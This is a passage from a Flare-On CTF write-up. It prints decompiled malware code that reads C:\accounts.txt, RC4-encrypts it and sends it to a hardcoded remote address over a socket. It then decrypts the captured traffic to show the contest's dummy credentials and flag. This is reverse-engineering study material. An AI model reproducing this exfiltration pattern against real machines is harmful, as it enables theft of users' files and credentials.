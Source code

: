 ```c
    (*WSAStartup)(0x202,local_1a0);
    iVar2 = create_socket(extraout_ECX,CONCAT22(extraout_var,0x539),0xc0a84415);
    (*send)(iVar2,buffer,length,0);
    (*shutdown)(iVar2,2);
    return;
}
```

Fairly obvious what is happening here, now that we have resolved all imports. We are reading the `C:\\accounts.txt`, encrypting it with RC4, this time using `intrepidmango` as encryption key, and then sending it over through a socket. 


## Getting the flag

It so happens this response data is sent in TCP stream 51 of the packet capture. An export of the transmitted data can be found in [encrypted_response.bin](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/7/encrypted_response.bin):

![Figure 6](wireshark5.png)

Decryption is also easy, we can just edit our python script accordingly. This results in the following file contents:

```
roy:h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com:goat
moss:Pot-Pocket-Pigeon-Hunt-8:narwhal
jen:Straighten-Effective-Gift-Pity-1:bunny
richmond:Inventor-Hut-Autumn-Tray-6:bird
denholm:123:dog
```

... revealing the flag.